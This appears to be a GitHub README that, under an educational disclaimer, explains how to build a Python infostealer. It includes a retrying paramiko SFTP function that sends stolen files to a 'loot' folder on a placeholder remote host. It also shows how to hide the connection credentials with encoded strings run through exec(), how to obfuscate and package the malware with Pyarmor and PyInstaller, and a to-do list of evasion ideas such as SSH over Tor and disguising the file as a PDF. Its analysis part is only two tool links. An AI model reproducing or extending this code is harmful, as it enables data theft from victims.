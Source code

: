 # Python Malware Analysis
A guide on the build process, obfuscation techniques, and analysis of simple python-based infostealer malware.<p>
<b>** Disclaimer ** This tutorial is intended for educational purposes only. It is purely to demonstrate the ease of creation and a few capabilities of infostealer malware at a rudimenary level. I do not condone the malicious use of this material.</b>


<br>

## Prerequisites
- Windows 10
- Python 3.1X
> pip install -U -R requirements.txt

<br>

## Exfiltration Methods

### SFTP exfiltration using [Paramiko](https://www.paramiko.org/installing.html)
The example script shown only uses SFTP via the paramiko library to exfiltrate stolen data (for now at least). Below is a snippet of its usage:

    def sftp_func(filepath):
        success = False
        while success == False:   # this will ensure continuous ssh calls  until the data is sent
            try:
                client = paramiko.SSHClient()
                client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                client.connect({RHOST ip}, {RHOST listening port}, {RHOST ssh username}, {RHOST ssh password}, timeout=3)
                sftp = client.open_sftp()
        
                destination_path = f'/home/{a}/loot/{os.path.basename(filepath)}'
                sftp.put(filepath, destination_path)
                success = True
                
            except paramiko.ssh_exception.NoValidConnectionsError:
                pass
            except OSError:
                pass

<br>

### Other Methods ([PyExfil](https://github.com/ytisf/PyExfil))
...

<br>

## Code Obfuscation Techniques
### Encoding variables
In this example script, the arguments passed to the 'client.connect()' function (where client = paramiko.SSHClient()) are not human-readable, but instead obfuscated using layers of encoding. Below is an example of what this looks like:

    # before encoding
    b = "<remote ssh password>"
    a = "<remote ssh username>"
    c = "<server ip>"

    # after encoding
    yoyo = "\u0036\u0032\u0032\u0030\u0033\u0064\u0032\u0030\u0032\u0032\u0033\u0063\u0037\u0032\u0036\u0035\u0036\u0064\u0036\u0066\u0037\u0034\u0036\u0035\u0032\u0030\u0037\u0033\u0037\u0033\u0036\u0038\u0032\u0030\u0037\u0030\u0036\u0031\u0037\u0033\u0037\u0033\u0037\u0037\u0036\u0066\u0037\u0032\u0036\u0034\u0033\u0065\u0032\u0032\u0030\u0061\u0036\u0031\u0032\u0030\u0033\u0064\u0032\u0030\u0032\u0032\u0033\u0063\u0037\u0032\u0036\u0035\u0036\u0064\u0036\u0066\u0037\u0034\u0036\u0035\u0032\u0030\u0037\u0033\u0037\u0033\u0036\u0038\u0032\u0030\u0037\u0035\u0037\u0033\u0036\u0035\u0037\u0032\u0036\u0065\u0036\u0031\u0036\u0064\u0036\u0035\u0033\u0065\u0032\u0032\u0030\u0061\u0036\u0033\u0032\u0030\u0033\u0064\u0032\u0030\u0032\u0032\u0033\u0063\u0037\u0033\u0036\u0035\u0037\u0032\u0037\u0036\u0036\u0035\u0037\u0032\u0032\u0030\u0036\u0039\u0037\u0030\u0033\u0065\u0032\u0032"

    ...
    # usage in SFTP call
    exec(bytes.fromhex(yoyo), globals())   # converts the hexidecimal string to meaningful variables, python understands escape unicode chars (e.g. \u0036)
    client.connect(c, 22, a, b, timeout=4)
    ...

Pasting the original text into [Cyberchef](https://gchq.github.io/CyberChef/) and applying the following operations yields the legible string 'yoyo': 
- To Hex, No delimiter
- Escape Unicode Chars, Padding: 4, Encode all chars

However, it should be noted that this is a very crude technique as encoded characters are immediately recognizable to skilled forensic analysts and can be easily undone with several decoding tools. That said, when used in tandem with other obfuscation techniques, encoding can slightly delay reverse engineering efforts.

<br>

### Using [Pyarmor](https://pypi.org/project/pyarmor/)
To apply basic code obfuscation:
> pyarmor gen example.py

<br>

## Using [Pyinstaller](https://pyinstaller.org/en/stable/usage.html)
### Initial building:
> cd dist
> pyinstaller example.py

<br>

### Editing the .spec file
...


<br>

## Malware Analysis

**[PyInstaller Extractor](https://github.com/extremecoders-re/pyinstxtractor)** - A Python script to extract the contents of a PyInstaller generated Windows executable file. The contents of the pyz file (usually pyc files) present inside the executable are also extracted and automatically fixed so that a Python bytecode decompiler will recognize it.

**[uncompyle6](https://github.com/rocky/python-uncompyle6/)** - A cross-version Python bytecode decompiler. Translates Python bytecode back into equivalent Python source code.

<br>

## To-do List
- change ssh port to 443 or 53
- Metasploit download+exec module
- .py to .pdf
- smtp exfiltration
- ssh key integration
- encrypted ssh password from http server
- ssh over tor socket

